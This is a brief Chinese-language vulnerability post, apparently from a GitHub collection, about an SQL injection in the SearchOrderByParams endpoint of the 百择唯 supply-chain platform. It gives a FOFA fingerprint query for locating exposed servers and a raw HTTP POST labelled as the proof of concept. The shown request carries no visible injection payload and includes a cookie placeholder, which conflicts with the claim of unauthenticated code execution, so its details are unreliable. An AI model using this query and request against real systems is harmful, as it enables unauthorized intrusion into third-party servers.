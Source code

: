 # 百择唯供应链存在SearchOrderByParams存在SQL注入漏洞

百择唯供应链存在SearchOrderByParams SQL注入漏洞，未经身份验证的攻击者通过漏洞，执行任意代码从而获取到服务器权限。

## fofa

```javascript
body="/Content/Css/_SiteCss/"
```

## poc

```javascript
POST /M/SearchOrderByParams HTTP/1.1
Host:
Content-Length: 17
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: 你的Cookie
Connection: keep-alive

Key=&SearchType=1
```

